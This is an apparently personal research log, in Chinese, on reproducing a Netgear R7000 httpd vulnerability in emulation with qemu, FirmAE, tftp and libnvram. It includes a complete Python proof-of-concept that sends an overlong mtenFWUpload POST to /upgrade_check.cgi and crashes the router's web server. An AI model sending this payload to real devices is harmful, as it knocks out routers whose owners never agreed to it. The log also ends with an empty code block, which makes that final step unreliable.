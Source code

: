 参考于文章[复现影响79款Netgear路由器高危漏洞](https://blog.csdn.net/q759451733/article/details/114459181)，但原文章是基于真实设备做的，这里尝试采用模拟的方式。

刚开始尝试qemu用户仿真，会报错说`libbdbroker.so`找不到
```
sudo chroot . ./qemu-arm-static /usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
/usr/sbin/httpd: can't load library 'libbdbroker.so'
```

然后去文件系统中找，这里会出现各种各种符号链接，但是是坏的，在提取的文件系统里确实找不到这个`libbdbroker.so`文件，这应该是路由器启动过程中动态生成的文件。

于是尝试使用FirmAE进行仿真，可以成功仿真！
```
sudo ./run.sh -d Netgear /home/iot/Desktop/firmware/Netgear/R7000-V1.0.11.100_10.2.100/R7000-V1.0.11.100_10.2.100.chk
```

![](images/Pasted%20image%2020230918224258.png)

通过debug模式进入shell，在FirmAE仿真的文件系统里可以找到`libbdbroker.so`文件，并且运行poc代码可以让http服务崩溃。
```python
# poc.py
import socket

ip = '192.168.1.1'
port = 80
argument_name = b"mtenFWUpload"

def send_plain(ip, port, payload):
	sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	sock.connect((ip, port))
	sock.send(payload)
	print(sock.recv(4096))
	sock.close()

data = b""
data += b"*#$^\x00" # marker
data += b"\x00\x04\x00" # size
data += b"A" * 0x400

payload = b''
payload += b'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += b'Host: 192.168.1.1\r\n'
payload += b'Content-Disposition: AAAA\r\n'
payload += b'Content-Length: 1024\r\n'
payload += b'Content-Type: application/octet-stream\r\n'
payload += b'name="mtenFWUpload"\r\n'
payload += b'\r\n'
payload += data

print(payload)

send_plain(ip, port, payload)

```

由于项目需要，要尝试将httpd程序通过用户仿真方式跑起来并能够触发崩溃，查看固件支持的命令发现支持tftp，于是在主机搭建tftp服务器，把缺少的`libbdbroker.so`文件拷贝出来再尝试运行。
## 搭建tftp服务器

在ubuntu主机上安装服务端
```
sudo apt-get install tftpd-hpa
```

创建tftp服务器目录
```
cd /home/iot/Desktop
mkdir tftp_share
```

配置tftp服务器
```
sudo vim /etc/default/tftpd-hpa
```

将内容更改为如下内容：
```
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/iot/Desktop/tftp_share"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="-l -c -s"
```

重启tftp服务
```
sudo service tftpd-hpa restart
```

在FirmAE跑起来的固件环境shell中运行tftp命令传输文件
```
tftp -l /tmp/media/nand/bitdefender/patches/base/lib/libbdbroker.so -r libbdbroker.so  -p 192.168.1.2 69
```

然后在tftp配置的目录下就可以找到相应的文件。

将`libbdbroker.so`文件放在lib目录下，然后再以用户仿真运行httpd程序，这次报`/var/run/httpd.pid: No such file or directory`，原因是缺少相应的目录，创建对应目录即可。提取的文件系统var指向tmp/var（不存在），所以递归创建目录`tmp/var/run`，然后再运行。

这次就开始报`/dev/nvram: No such file or directory`，这是因为没有配置nvram，可以安装firmadyne项目中提供的方法进行配置。

## nvram配置
根据[firmadyne/libnvram: NVRAM emulator (github.com)](https://github.com/firmadyne/libnvram) 中Usage的描述，下载arm版本的release，将`libnvram.so`覆盖原来的文件`usr/sbin/libnvram.so`，在文件系统根目录创建目录
```
mkdir -p firmadyne/libnvram/
mkdir -p firmadyne/libnvram.override/
```

然后重新启动httpd程序，nvram问题解决了，但是又崩了。。

![](images/Pasted%20image%2020230919113506.png)

没找出原因在哪儿，放弃。ps.尝试通过greenhouse工具跑该固件，但是跑完后没有结果。

## 全系统仿真
前面没跑通，后来又尝试全系统模式仿真，测试发现上面的问题是因为NVRAM的值（`gui_region`）没有设置，需要设置它的值才能继续跑下去，但是后面还有很多NVRAM的值需要设置，暂时还是没跑起来，记录一下全系统仿真时的脚本。

```
qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

./gdbserver-7.7.1-armel-v1 192.168.2.2:1234 usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
```

20231004

有很多访问`/dev/acos_nat_cli`外设的，调用`ioctl()`函数操作，无法处理，导致崩溃，主要封装在`agApi_*` 函数。

##############
嵌入式设备中的很多程序通过内核设备驱动程序与外设协作。通常，其使用ioctl命令行与外设通信。但因为每个设备驱动程序都有其独特的特征，这些特征取决于其开发人员和相应的设备，所以这一过程并不容易模拟。尽管Firmadyne实现了一些虚拟内核模块，支持/dev/naram和/dev/acos_nat_cli，但这远远无法涵盖实际场景中中固件映像的各种特性。所以，这一问题会导致很多固件映像仿真过程中崩溃。 
**Insufficient support of kernel module**尽管Firmadyne用硬编码设备名称和icotl命令实现了虚拟模块，但当程序用不同的配置来访问内核时还是会失败。例如，大量的NETGEAR映像使用acos_nat模块来与安装在/dev/acos_nat_cli上的外设通信。在这些映像中，Firmadyne模块返回不正确的值，并在httpd中形成无限循环。此外，我们还发现ioctl命令根据固件体系结构的不同而不同，这一点也需要考虑进来。
FirmAE的高级仿真方法可以利用特定内核模块的优势。这里关键的一点是通过共享库来访问许多内核模块，这些共享库有发送相应ioctl命令的函数。因此，FirmAE可以像处理NVRAM问题一样对其处理。当程序调用库函数时，FirmAE返回一个预定义的值。因此，并不需要模拟每个设备架构中的每一条icotl命令。在这个例子中，我们只需要关注acos_nat，而经由共享库的其他外设访问可以用相同的方式处理。
##############

下载交叉编译工具：[armv7-eabihf--uclibc--stable-2020.08-1](https://toolchains.bootlin.com/downloads/releases/toolchains/armv7-eabihf/tarballs/armv7-eabihf--uclibc--stable-2020.08-1.tar.bz2)

对相关函数进行hook

```

```